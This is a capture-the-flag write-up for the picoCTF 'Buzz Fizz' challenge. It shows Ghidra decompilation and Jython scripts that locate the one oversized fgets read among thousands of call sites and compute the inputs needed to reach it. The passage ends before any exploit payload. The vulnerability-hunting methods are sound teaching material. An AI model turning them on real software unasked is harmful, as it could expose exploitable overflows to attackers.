





> FizzBuzz was too easy, so I made something a little bit harder... There's a buffer overflow in this problem, good luck finding it!

> [vuln](https://mercury.picoctf.net/static/8131f021924668df7e516ded9c9cadb4/vuln) `nc mercury.picoctf.net 28132`

> Hints:
> 1. What functions are imported? Where are they used? And what do these strings mean?
> 2. Woah, some of these functions seem similar, can you figure them out one group at a time?
> 3. If fancy new disassemblers take too long, there's always objdump!
> 4. Have you heard of binary instrumentation before? It might keep you from running in circles. No promises.
> 5. ANGR is another great framework.

Wow. That's a lot to take in. But it boils down to just finding the one vulnerable input function that leads to a buffer overflow, right? Oh how wrong I was...

Downloading and opening up the binary in Ghidra, I saw the `main` function:
```c
void main(void)

{
  setbuf(stdout,NULL);
  FUN_0811d5b3();
  FUN_0811d941();
  puts("fizz");
  FUN_0811ead2();
  puts("buzz");
  puts("fizz");
  FUN_0811fbb3();
  FUN_08120828();
  puts("fizz");
  puts("buzz");
  FUN_08121d33();
  .
  .
  .
  puts("fizz");
  FUN_0814a663();
  FUN_0814ac03();
  puts("fizz");
  puts("buzz");
  return;
}

```
In total, there were around 80 calls to external functions. Opening up just one function shows:
```c
void FUN_0811d5b3(void) {
  int iVar1;
  
  iVar1 = fizz_buzz(4);
  if (iVar1 != 4) {
    FUN_081451af();
    iVar1 = fizz_buzz(4);
    if (iVar1 != 4) {
      FUN_0812d430();
      iVar1 = fizz_buzz(10);
      if (iVar1 != 10) {
        FUN_0812d430();
        iVar1 = fizz_buzz(7);
        if (iVar1 != 7) {
          FUN_08140c2e();
          iVar1 = fizz_buzz(0x11);
          .
          .
          .
```
Well, this is going to be a fun ride. But atleast we have a `fizz_buzz` function:
```c
uint fizz_buzz(uint param_1) {
  int iVar1;
  uint uVar2;
  char buf [9];
  undefined local_15;
  size_t len;
  uint i;
  
  i = 1;
  while( true ) {
    while( true ) {
      while( true ) {
        if (param_1 <= i) {
          return i;
        }
        printf("%zu? ",i);
        __isoc99_scanf(&"%9s",buf + 1);
        local_15 = 0;
        len = strnlen(buf + 1,8);
        if (buf[len] == '\n') {
          buf[len] = '\0';
        }
        if (i != (i / 0xf) * 0xf) break;
        iVar1 = strncmp(buf + 1,"fizzbuzz",8);
        if (iVar1 != 0) {
          return i;
        }
        i = i + 1;
      }
      if (i % 3 == 0) break;
      if (i == (i / 5) * 5) {
        iVar1 = strncmp(buf + 1,"buzz",8);
        if (iVar1 != 0) {
          return i;
        }
        i = i + 1;
      }
      else {
        uVar2 = strtol(buf + 1,NULL,10);
        if (i != uVar2) {
          return i;
        }
        i = i + 1;
      }
    }
    iVar1 = strncmp(buf + 1,"fizz",8);
    if (iVar1 != 0) break;
    i = i + 1;
  }
  return i;
}
```
Nothing too interesting. With a given `param1`, the function prompts `{x}?` for each `x` in the range 1 to `param1`. For each prompt, the response must follow the fizz buzz rules, which are:
1. For a normal number, print it
2. For a multiple of 3, print `fizz`
3. For a multiple of 5, print `buzz`
4. For a multiple of 15, print `fizzbuzz`

The function then returns the number of such prompts that we have answered correctly, until the first failure or when we have reached the end of the range (`param1`)
dd
This is just where the fun begins though:



As painful it seemed, I waded though those functions for half and hour before I gave up and resorted to writing scripts. But in that half an hour I found a pattern. 

The only input is from `fgets` and the `scanf` inside `fizz_buzz`. There are several of these functions, where `fgets` is called with some declared array.
```c
void FUN_080f0357(void) {
  char local_51 [65];
  int local_10;
  
  local_10 = fizz_buzz(0x4d);
  if (local_10 == 1) {
    fgets(local_51,0x35,stdin);
  }
  if (local_10 == 2) {
    fgets(local_51,0x18,stdin);
  }
  if (local_10 != 3) {
    if (local_10 == 4) {
      fgets(local_51,0x1d,stdin);
    }
    if ((local_10 != 5) && (local_10 != 6)) {
      if (local_10 == 7) {
        fgets(local_51,0x1d,stdin);
      }
      if (local_10 == 8) {
        fgets(local_51,0x3d,stdin);
      }
      if ((local_10 != 9) && (local_10 != 10)) {
        if (local_10 == 0xb) {
          fgets(local_51,0xd,stdin);
        }
        ...
```

Seems like we have to find the _one_ function that calls `fgets` with a second parameter (the length of input) that exceeds the declared array size.

## Setup
I wanted to solve this using Ghidra since it was a long time since I did any decent Ghidra Scripting, and it would be my first time trying to do it in the Jython language.

But I also wanted to have autocomplete and all those nice features that come when you use a _nice_ language. Thankfully, we have some good methods to do this.

1. [ghidra-jython-kernel](https://github.com/AllsafeCyberSecurity/ghidra-jython-kernel)
    - Run the our code in a Python Notebook
    - API is not imported into the global scope
    - No autocomplete
2. [ghira-bridge](https://pypi.org/project/ghidra-bridge/)
    - Can harness the full power of Python 3, so we can use other external libraries as well
    - Has the hassle of install scripts to link Ghidra with this API
    - No autocomplete :(
3. [ghidra-pyi-generator](https://github.com/VDOO-Connected-Trust/ghidra-pyi-generator)
    - Full API with generated type stubs
    - Stuck with Jython

I chose option 3 as I eventually wanted to write more permanent scripts for Ghidra in Jython, and considered this challenge as a good testing ground. Besides, the [README.md](https://github.com/VDOO-Connected-Trust/ghidra-pyi-generator#readme) is _very_ convincing.


**Oh, the wonders of autocomplete!**

::: details What to do if the type stubs cannot be installed
Do the below if you use Windows or if the type stubs fail to install.
Setup a [venv](https://docs.python.org/3/library/venv.html) in your desired `ghidra_scripts` folder (or where ever you put your scripts):
```bash
python3 -m venv ~/ghidra_scripts/venv
```
Download the [type stubs](https://github.com/VDOO-Connected-Trust/ghidra-pyi-generator/releases) somewhere, then activate the `venv` shell, following the table below

| Shell            | Command                               |
| ---------------- | --------------------------------------|
| bash/zsh         | `source <venv>/bin/activate`          |
| fish             | `source <venv>/bin/activate.fish`     |
| csh/tcsh         | ` source <venv>/bin/activate.csh`     |
| PowerShell Core  | `<venv>/bin/Activate.ps1`             |
| cmd.exe          | `<venv>\Scripts\activate.bat`    |
| PowerShell       | `<venv>\Scripts\Activate.ps1` |

Then run
```bash
python3 -m pip install ghidra_stubs*.whl
```
to install the type stub into the `venv`.

Now, configure whatever IDE to use this `venv` and enjoy proper autocomplete. I use IDEA so I used (https://www.jetbrains.com/help/idea/creating-virtual-environment.html)
:::

::: tip Quick primer to Jython
`currentProgram` is the current program. There are a lot of utility functions like `toAddr` or `getFunction` that are imported automatically.

Don't hesitate to randomly type something you want, and get related functions for it (yay autocomplete!) e.g.



If a object has a `x.getXXX()` or `x.setXXX(X value)` method, you can just do `x.XXX` or `x.XXX = value` instead.

Scripts should be in `~/ghidra_scripts` where `~` is your home directory, or in other paths that you have set as allowed. Run the script using the Script Manager.
:::

## Finding the overflow

My rough idea of finding the offending buffer overflow was:
1. Find the `fgets(dest, n, stdin)` function
1. Find all references to it
2. Iterate through them to find:
3. The size of the first parameter, and compare it to the second parameter
4. Print out where the second parameter is bigger.

### Finding the `fgets` function
This was harder than expected, as Ghidra had some trouble mapping external function names to the global namespace, so the intuitive code returns false
```python
None != getFunction("fgets")
[] != getGlobalFunctions("fgets")
```
I ended up finding the address of the `fgets` function, then getting the [Address](https://ghidra.re/ghidra_docs/api/ghidra/program/model/address/Address.html) object from it using `toAddr`.
```python
fgets = toAddr(0x80484a0)
```
Straightforward.
### Finding all references to a function
This has a surprising trick to it. The first iteration of my script used the ol' reliable
```python
xrefs = getReferencesTo(fgets)
```
But it surprisingly only gets you 4096 references. In reality, we have around 19757 references (_yes_, that many). Our handy documentation also says likewise.


To get all references, we follow the documentation and use this:
```python
xrefs = currentProgram.referenceManager.getReferencesTo(fgets)
```
### Iterating through all references
Jython is surprisingly useful, converting our `Iterator` (what `xrefs` actually is) to a near-`iter` type that we can loop over:
```python
for xref in xrefs:
  pass
```
### Finding the value of the parameters
Here comes the difficulty, as what we have is just a [Reference](https://ghidra.re/ghidra_docs/api/ghidra/program/model/symbol/Reference.html) object, which is pretty useless on its own. But if you look at the assembly code for our `fgets` call, you can see a pattern.



Since the binary is 32-bit x86, all our arguments are pushed onto the stack. The calling convention states that the first argument (`dest`) is pushed the last, right before the `call` instruction. After that is the second arg, `n`, and pushed onto the stack first will be `stdin`.

So we can just look at the all the pushed arguments in the correct order to get our desired values. Even better, this code seems to be under the least optimization, so these instructions are _always_ generally in this order, despite the many possible optimizations.

::: warning
Notice how the first and third parameters (the buffer and stdin) are almost always the same. Usually compilers will just keep this constant and do something like `mov [esp-4], {length}` to set the length then `call fgets`
:::

And yes, I used the wonderful method of looking at 15 different examples of this function to see if this pattern holds :)

From our [Reference](https://ghidra.re/ghidra_docs/api/ghidra/program/model/symbol/Reference.html), let's try to get the [Instruction](https://ghidra.re/ghidra_docs/api/ghidra/program/model/listing/Instruction.html) at it's [fromAddress](https://ghidra.re/ghidra_docs/api/ghidra/program/model/symbol/Reference.html#getFromAddress()) using [getInstructionAt](https://ghidra.re/ghidra_docs/api/ghidra/program/flatapi/FlatProgramAPI.html#getInstructionAt(ghidra.program.model.address.Address)). Then let's try to go back and retrieve the previous instructions using [getInstructionBefore](https://ghidra.re/ghidra_docs/api/ghidra/program/flatapi/FlatProgramAPI.html#getInstructionBefore(ghidra.program.model.listing.Instruction)), and [get the operands](https://ghidra.re/ghidra_docs/api/ghidra/program/model/listing/Instruction.html#getDefaultOperandRepresentationList(int)) of them.

Let's get the relevant instructions first:
```python
for xref in xrefs:
    call = getInstructionAt(xref.fromAddress)
    push_buffer = getInstructionBefore(call)
    set_buffer = getInstructionBefore(push_buffer)
    push_len = getInstructionBefore(set_buffer)
```

Let's reiterate on our instructions again:
```asm6502
; push stdin
mov eax, dword ptr [ebx + 0xfffffff8] ; stdin
mov eax, dword ptr [eax] 
sub esp, 0x4
push eax

; push n
push 0x15               ; get 0x15

; push dest (ptr relative to rbp)
lea eax, [ebp + -0x63]  ; get -0x63
push eax

; fgets(dest, n, stdin)
call fgets
```

Getting the operand values is a bit more difficult, as operands are represented as a `List<object>`, and each object is something like a [Scalar](https://ghidra.re/ghidra_docs/api/ghidra/program/model/scalar/Scalar.html) (constant value), or [Register](https://ghidra.re/ghidra_docs/api/ghidra/program/model/lang/Register.html). e.g. the operands for the instruction to set the buffer parameter, `lea eax, [ebp + -0x63]`, has these operand representations:
| Operand         | Representations |
| --------------- |:---------------|
| 0: `eax`           | 0: `Register(eax)` |
|                 |                |
| 1: `[ebp + -0x63]` | 0: `'['`           |
|                 | 1: `Register(ebp)` |
|                 | 2: `'+'` |
|                 | 3: `Scalar(-0x63)` |
|                 | 4: `']'` |

So to get the buffer's length, we have to get the second operand, then get the second last element of the representation list to get a `Scalar` and read its `value`.

The instruction to set push `n` onto the stack has these operand representations:
| Operand         | Representations |
| --------------- |:---------------|
| 0: `0x15`       | 0: `Scalar(0x15)` |

The length parameter to the function is just the first `Scalar` in the representation list of the first operand, since the instruction is just `push <const value>`.

After that, just compare the values and print the address of our offending function call!
The final code is below
```python
# For type checking
try:
    from ghidra.ghidra_builtins import *
except:
    pass

fgets = toAddr(0x80484a0)
xrefs = currentProgram.referenceManager.getReferencesTo(fgets)

for xref in xrefs:
    call = getInstructionAt(xref.fromAddress)
    push_buffer = getInstructionBefore(call)
    set_buffer = getInstructionBefore(push_buffer)
    push_len = getInstructionBefore(set_buffer)

    buffer = -set_buffer.getDefaultOperandRepresentationList(1)[-2].value
    length = push_len.getDefaultOperandRepresentationList(0)[0].value
    if length > buffer:
        printf("Found buffer overflow at %s\n", xref.fromAddress)
```
The results is as below:
```
buzz_fizz_find_calls.py> Running...
Found buffer overflow at 0808aeb0
buzz_fizz_find_calls.py> Finished!
```
And it ran surprisingly fast! That address leads us to this:


Ooo, a read of `0x15c = 348` into a buffer of size `87`

## Finding the path to this function

I was hoping this function was called directly by `main`, but of course it was foolish to think like that. The truth is worse, as it is nowhere close to getting called by `main`.
>In fact, there are 77 functions between them

To find the optimal path between `main` and our function, let's write a script that basically does a DFS from the function of our target address (0x808aeb0) to `main`, then prints out the functions and the address of the relevant `call` instructions between them.

```python
try:
    from ghidra.ghidra_builtins import *
except:
    pass

target = toAddr(0x808aeb0)
target_fn = getFunctionContaining(target)
main = getFunctionAt(toAddr(0x814c22c))

def explore(start, end):
    explored = set()

    def _inner(cur, path):
        if cur == end:
            return path
        if cur in explored:
            return None
        explored.add(cur)

        xrefs = getReferencesTo(cur)
        for xref in xrefs:
            fn = getFunctionContaining(xref.fromAddress)
            if fn is None:
                continue
            ret_path = _inner(fn.entryPoint, path + [(fn, xref.fromAddress)]) # add function and xref address
            if ret_path is not None:
                return ret_path
    return _inner(start, [])

rpath = explore(target_fn.entryPoint, main.entryPoint)
for (fn, reach) in reversed(rpath):
    printf("call %s, reach %s\n", fn, reach)

```

The code is almost standard DFS, except that we append the function at the `xref.fromAddress` and itself to the path as we traverse till we reach main. Since we go from `target_fn` to `main`, we reverse the path when we print it so that we print our the path from `main` to `target_fn`

```
buzz_fizz_path_to_main.py> Running...
call main, reach 0814c635
call FUN_0814668f, reach 08146907
call FUN_0814868f, reach 08148772
call FUN_08147792, reach 08147b84
call FUN_08145c2a, reach 08146001
call FUN_0814a663, reach 0814ab63
call FUN_0812611a, reach 08126191
call FUN_081451af, reach 0814540c
..
call FUN_08109f08, reach 08109f9a
buzz_fizz_path_to_main.py> Finished!
```

Note that I used DFS, not [Dijkstra's algorithm](https://www.wikiwand.com/en/Dijkstra%27s_algorithm), so the path may not be the fastest. I will leave that implementation as an exercise for the reader.

## Knowing the appropriate input to provide

We know which functions are to be called in order, as well as the address in each function that we have to somehow reach (where the `call` instruction is ), in order to go from `main` to our target function. 

Those functions are basically of these format:
```c
void FUN_080f0351(void) {
  char local_51 [65];
  int local_10;
  
  local_10 = fizz_buzz(0x4d);
  if (local_10 == 1) {
    fgets(local_51,0x35,stdin);
  }
  if (local_10 != 3) {
    FUN_0808431();
    if (local_10 == 4) {
      fgets(local_51,0x1d,stdin);
    }
    if ((local_10 != 5) && (local_10 != 6)) {
      FUN_0808431(); // <--- TARGET?
      if (local_10 == 7) {
        fgets(local_51,0x1d,stdin);
      }
        ...
```
There are multiple calls to `fizzbuzz`, comparisons with its outputs, and calls to other functions that we want to end as fast as possible. The task seems kind of complicated, but we can simplify the problem:
  1. `fizzbuzz` is the only real input that we can use to control program flow, from the start of the function to the _reach_ address. Thus, we can think of reaching an address by giving a list of certain `FizzBuzz(max)`
  2. We will have multiple `if` statements that act on the output of these `FizzBuzz(max)`. Each of these `if` statements restrict the output value of `fizzbuzz`, so let's change the definition of `FizzBuzz(max)` to `FizzBuzz(max, conditions)`, where conditions is a list of `Equals(X)` or `NotEquals(X)`, where `X` is a constant
  3. There is only one `fgets` that we provide input to, so we can ignore the presence of the rest of the `fgets`
  4. If we go into an external function (think `FUN_0808431`) but it isn't our _reach_ address, consider it a function that we have to exit fast out of. Let's represent this with `ExitFast(fn)`
  5. For each `ExitFast(fn)`, we have to replace it with the list of `FizzBuzz(max, conditions)` that represent the _fastest_ way to _exit_ (heh) out of that function

 I chose to utilize Ghidra's more esoteric features to solve this problem, mostly that of `PCode`. But let's get some definitions out of the way.

### PCodeOp

[PCodeOp](https://ghidra.re/ghidra_docs/api/ghidra/program/model/pcode/PcodeOp.html)s are the raw underlying platform-independent code that every instruction in a particular assembly language makes up. They abstract over the implementation details of each platform's assembly language, and present them as precisely as possible. e.g.
```
SUB   ESP,0x10
```
becomes
```
(1)  CF = INT_LESS ESP, 16:4 
(2)  OF = INT_SBORROW ESP, 16:4 
(3)  ESP = INT_SUB ESP, 16:4 
(4)  SF = INT_SLESS ESP, 0:4 
(5)  ZF = INT_EQUAL ESP, 0:4
```
> (from [https://medium.com/@cetfor/emulating-ghidras-pcode-why-how-dd736d22dfb](https://medium.com/@cetfor/emulating-ghidras-pcode-why-how-dd736d22dfb))

### PCodeOpAST
While it may be specific, [PCodeOp](https://ghidra.re/ghidra_docs/api/ghidra/program/model/pcode/PcodeOp.html)s lose a lot of their higher-level meaning. Ghidra has a way to convert these [PCodeOp](https://ghidra.re/ghidra_docs/api/ghidra/program/model/pcode/PcodeOp.html)s to [PCodeOpAST](https://ghidra.re/ghidra_docs/api/ghidra/program/model/pcode/PcodeOpAST.html)s, which are the higher-level representations, which eventually get turned into the decompiled code that you can view. [PCodeOpAST](https://ghidra.re/ghidra_docs/api/ghidra/program/model/pcode/PcodeOpAST.html) basically come in this form:
```
INSTRUCTION <varnode1> <varnode2> <varnode3> ...
```
e.g.
```
CALL (0, reg, 0x10)
```
The full list of such instructions are in [here](https://ghidra.re/courses/languages/html/pcoderef.html), along with the inputs they take.
### PCodeBlock
Many of these instructions become a [PCodeBlock](https://ghidra.re/ghidra_docs/api/ghidra/program/model/pcode/PcodeBlockBasic.html), which are basically the smallest unit of contiguous code without branches. Similar to a block of code, we have:

```asm
mov eax, 1
call FUN_454542
sub rdi, rsi, 8
jl LAB_045666
```
But instead of a block of assembly instructions, we have a block of [PCodeOpAST](https://ghidra.re/ghidra_docs/api/ghidra/program/model/pcode/PcodeOpAST.html)s. e.g.
```
MOVE     (4, reg, 1), (4, const, 1)
CALL     FUN_454542
INT_SUB  (4, reg, 2), (4, reg, 3), (4, const, 8)
CBRANCH  LAB_045666
```
[PCodeBlock](https://ghidra.re/ghidra_docs/api/ghidra/program/model/pcode/PcodeBlockBasic.html) usually come in the form of [PCodeBlockBasic](https://ghidra.re/ghidra_docs/api/ghidra/program/model/pcode/PcodeBlockBasic.html#)s, but the difference is minor.
### Varnode
I'm sure you have figured it out by now, but a [Varnode](https://ghidra.re/ghidra_docs/api/ghidra/program/model/pcode/Varnode.html) is a representation of a memory region e.g. register, stack, global memory, and even constant values. 

So, what do we do with all of these?

With a graph of `PCodeBlock` of a function, we can run DFS between the start of the function and the block where the _reach_ address is. The resulting path is in fact an inferior method of the output of running [Backward Slicing](http://www0.cs.ucl.ac.uk/staff/M.Harman/exe1.html), but works since our functions are simplistic. With the resulting path, we iterate through all the `PcodeOpAST`s to build up a list of `ExitFast(fn)` and `FizzBuzz(max, conditions)`. We will have to have some sort of memory manager (just a good ol' `dict` for me) that will have to keep track of the `Varnode`s. Finally, we have to do these steps again to replace the `ExitFast(fn)` with the equivalent list of `FizzBuzz(max, conditions)`

Let's get the definitions out of the way:
```python
class Input: # just a marker class
  pass


class FizzBuzz(Input):
    def __init__(self, n):
        self.actual = n
        self.conditions = [] # array of Equals

    def __str__(self):
        return "FizzBuzz(%d, %s)"%(self.actual, list(map(str, self.conditions)))

    def flip_last_condition(self):
        self.conditions[-1].flip()

    def add_condition(self, cond):
        self.conditions.append(cond)


class ExitFast(Input):
    def __init__(self, fn):
        self.fn = fn

    def __str__(self):
        return "ExitFast(%s)"%hex(self.fn)


class Equals:
    def __init__(self, not_, n):
        self.not_ = not_
        self.n = n

    def flip(self):
        self.not_ = not self.not_

    def __str__(self):
        return "%s(%d)"%("NotEquals" if self.not_ else "Equals", self.n)
```

The idea is that we build up a list of `Input` (`ExitFast` / `FizzBuzz`) as we go. We can constrain the values of the correct input to provide to a call to `fizzbuzz` by adding
to the `conditions` of `FizzBuzz` as we encounter conditional branches (we add `Equal(not_ = true|false, n)`). Here's how we iterate though the `PCodeOpAST`s:

```python
def dfs(start, end):
    """
    Find path from start to end, in terms of a list of PCodeBlock

    :param start: Start block, the first block of the function
    :param end: Target block
    :return: PCodeBlock[] that represents the path between the start and end block
    """
    explored = set()
    neighs = lambda b: [b.getOut(i) for i in range(b.outSize)] # get blocks coming out of `b`

    def _inner(cur, path):
        if cur in explored:
            return None
        if cur == end:
            return path + [cur]
        explored.add(cur)
        for x in neighs(cur):
            p = _inner(x, path + [cur])
            if p is not None:
                return p
        return None
    return _inner(start, [])


def find_target(blocks, reach):
    """
    Find the PCodeBlock, PCodeOpAST that the address `reach` belongs to
    :param blocks: The list of blocks to check
    :param reach: The target address
    :return: (PCodeBlock, PCodeOpAST)
    """
    for block in blocks:
        for op in block.iterator:
            # op.seqnum.target.offset is the address of the PCodeOpAST
            # note that this is sort-of undocumented and might not be
            # the same in future versions of Ghidra
            if op.seqnum.target.offset == reach:
                return (block, op)
    raise Exception("No path found")


def check(start, reach, blocks):
    """
    Build up a list of Input objects (FizzBuzz(max, conditions) and ExitFast) from
    the list of `PCodeBlock`s (which have an iterator to `PCodeOpAST`s).

    :param start: PCodeBlock, the first block in the function
    :param reach: int, The target address
    :param blocks: PCodeBlock[], all the blocks in the function
    :return: list of Input objects
    """
    # find which PCodeOpAST and PCodeBlock that `reach` belongs so
    target_block, target_op = find_target(blocks, reach)
    # find path between start
    path = dfs(start, target_block)
    # Varnode storage, meant to map Varnode => FizzBuzz
    mem = {}
    # List of ExitFast and FizzBuzz that we have to satsisfy for this function
    inps = []

    for i in range(len(path)):
        block = path[i]

        for op in block.iterator: # iterate through each PCodeOpAST in each PCodeBlock in the path
            if op == target_op: # reached, exit!
                break

            if op.opcode == op.CALL: # if this is a CALL
                # op.inputs[0] is the address of the function we are calling, as a Varnode.
                # `.offset` will get it as a constant value
                addr = op.inputs[0].offset
                if addr == fizz_buzz:
                    # op.inputs[1] is the actual Varnode for the first parameter
                    max = op.inputs[1].offset # constant e.g. 4
                    inp = FizzBuzz(max) # conditions is initially empty
                    # op.output is the Varnode for the return value.
                    # Here, we track it in `mem`
                    mem[op.output] = inp
                    # .. and also add it into the input list
                    inps.append(inp)
                elif addr == fgets or addr == puts or addr == setbuf:
                    pass # ignore
                else:
                    # this is a function like FUN_0808431. Exit out of this early
                    inps.append(ExitFast(addr))

            elif op.opcode == op.MULTIEQUAL:
                # represents a `output` that can be _any_ of the values in `input`
                # since we do backward slicing, only one of the inputs will be set
                for inp in op.inputs:
                    if inp in mem:
                        mem[op.output] = mem[inp] # forward the value

            elif op.opcode == op.INT_NOTEQUAL or op.opcode == op.INT_EQUAL:
                # represents a `c != 3` or `c == 4` operation. We can add conditions to our FizzBuzz here
                # to limit how much of the `fizzbuzz` code we should fulfill
                inp = mem[op.inputs[0]]
                cmp = op.inputs[1].offset
                # restrict our FizzBuzz, with the assumption that this condition is true.
                # The assumption can be checked in the corresponding CBRANCH
                inp.add_condition(Equals(op.opcode != op.INT_EQUAL, cmp))
                mem[op.output] = inp # forward the value into the output of the comparison

            elif op.opcode == op.CBRANCH:
                # represents branch being taken/not taken. Succeeds a INT_EQUAL or INT_NOTEQUAL,
                # and will thus determine if the INT_EQUAL/INT_NOTEQUAL should be true or false

                # op.inputs[1] is the Varnode for the value of the comparison
                inp = mem[op.inputs[1]]
                if block.trueOut != path[i + 1]:
                    # if the true branch is not the block,
                    # flip the previous comparison
                    inp.flip_last_condition()

            elif op.opcode == op.INDIRECT:
                pass # can ignore

            else:
                # unknown PCodeOpAST!
                if start.start.offset == main:
                    continue # but ignore the unknown ones in main, they do nothing anyway
                print("Unknown " +str(op)+ " in " + str(block))

    return inps

```

Now, we have to find a way to get the `PCodeBlock`s of a function so that we can apply the above methods.
To do that, we have to decompile the functions to get [DecompileResults](https://ghidra.re/ghidra_docs/api/ghidra/app/decompiler/DecompileResults.html), which contains the juicy information we need.
Note that since we might have a have a lot of functions to decompile, I opted to speed up the process by using the [ParallelDecompiler](https://ghidra.re/ghidra_docs/api/ghidra/app/decompiler/parallel/ParallelDecompiler.html).

```python
class Reaches:
    def __init__(self, reaches, check):
        self.reaches = reaches
        self.mapping = dict(reaches)
        self.funcs = list(map(lambda x: getFunctionAt(toAddr(x)), self.mapping.keys()))
        self.check = check
        self.results = {}

    def run(self):
        self.decompile()
        return self.results

    def callback(self, result):
        """
        Utility function to adapt a DecompileResult to match that of `check`

        :param result: DecompileResult
        """
        funcAddr = result.function.entryPoint.offset
        reach = self.mapping[funcAddr]
        high = result.highFunction
        start_block = next(iter(high.basicBlocks))
        ret = self.check(start_block, reach, high.basicBlocks)
        self.results[funcAddr] = ret


    def decompile(self):
        """
        Run ParallelDecompiler to decompile the functions and get their DecompileResult, massively!
        """
        from java.util.function import Consumer
        import ghidra.app.decompiler.parallel.ParallelDecompiler as ParallelDecompiler
        import ghidra.app.decompiler.parallel.DecompilerCallback as DecompilerCallback

        cb = self.callback

        class SignatureCallback(DecompilerCallback):
            def process(self, decompileResults, mon):
                # kick the call back to super if we are in the wrong
                # process method (Python is typeless)
                if isinstance(decompileResults, ghidra.program.model.listing.Function):
                    return super(SignatureCallback, self).process(decompileResults, mon)
                func = decompileResults.getDecompiledFunction()
                if func is None:
                    return "// could not decompile " + \
                           str(decompileResults.getFunction()) + ": " + \
                           decompileResults.getErrorMessage()
                else:
                    cb(decompileResults)
                    return 1
        class jc(Consumer):
            def __init__(self, fn):
                self.accept = fn
        callback = SignatureCallback(currentProgram, lambda di: None)
        ParallelDecompiler.decompileFunctions(callback, currentProgram, iter(self.funcs), jc(lambda x: None),
                                              ghidra.util.task.TaskMonitor.DUMMY)
```

Basically, I wanted to input a list of `(function_start, target_address_to_reach)` to `Reach` and executing `run()` should give me a list of inputs to give (the values are the output of `Finding the path to this function`):
```python
initial = Reaches(
    [(135578156, 135579189), (135554703, 135555335), (135562895, 135563122), (135559058, 135560068),
     (135552042, 135553025), (135571043, 135572323), (135422234, 135422353), (135549359, 135549964),
     (135536989, 135537432), (135534658, 135534858), (135539441, 135539479), (135531566, 135531685),
     (135528022, 135530058), (135502753, 135502953), (135525592, 135527007), (135501723, 135501869),
     (135520930, 135522507), (135490370, 135490759), (135498033, 135500204), (135495570, 135496040),
     (135515950, 135517284), (135405945, 135407603), (135400618, 135401493), (135487181, 135487273),
     (135483669, 135484544), (135484883, 135485569), (135432020, 135434434), (135461885, 135462274),
     (135478128, 135479030), (135465431, 135466522), (135506986, 135507348), (135477526, 135477969),
     (135471218, 135471283), (135473194, 135473286), (135470522, 135470641), (135458227, 135458994),
     (135445201, 135447021), (135491876, 135492770), (135501057, 135501095), (135454588, 135455355),
     (135451696, 135452760), (135542564, 135543466), (135390085, 135390339), (135448310, 135449104),
     (135557321, 135558007), (135482262, 135483299), (135434846, 135434965), (135447400, 135447465),
     (135411057, 135411122), (135440308, 135441399), (135475822, 135475914), (135395395, 135396000),
     (135402685, 135403290), (135435448, 135435783), (135429128, 135429598), (135426962, 135427351),
     (135533534, 135534139), (135424697, 135426058), (135419375, 135419710), (135442606, 135444237),
     (135416780, 135418654), (135459257, 135460537), (135393790, 135394800), (135414218, 135414958),
     (135409320, 135409628), (135407880, 135408971), (135399464, 135399529), (135404851, 135405753),
     (135411689, 135413509), (135396275, 135397609), (135387457, 135388899), (135386547, 135387098),
     (135391954, 135392748), (135514672, 135514926), (135544829, 135544894), (135467960, 135468592),
     (135307016, 135307162)], check)

initial_results = initial.run()
```
But `initial_results` also ends up having `ExitFast` in it, so lets run `Reach` on all the `ExitFasts`:
```python
exits = [(inp.fn, getFunctionAt(toAddr(inp.fn)).body.maxAddress.offset)     # (first address, last address)
         for func in initial.mapping.keys()
         for inp in initial_results[func]
         if isinstance(inp, ExitFast)]

exiter = Reaches(exits, check)
exiter_results = exiter.run()
```

The above code assumes the last address of the function is the exit block (which is the block with the `ret` instruction), which for our simplistic binary is true. Other cases should involve iterating over the block graph and finding terminating nodes.

Now we have to replace the `ExitFast` with the equivalent list of inputs.

```python
finale = []

for func, _ in initial.reaches:
    inps = initial_results[func]
    idx = 0
    while True:
        if idx >= len(inps):
            break
        if isinstance(inps[idx], ExitFast):
            replace = exiter_results[inps[idx].fn]
            inps = inps[:idx] + replace + inps[(idx + 1):]
            idx += len(replace) - 1
        idx += 1
    finale += [list(map(str, inps))]

print(finale)
```

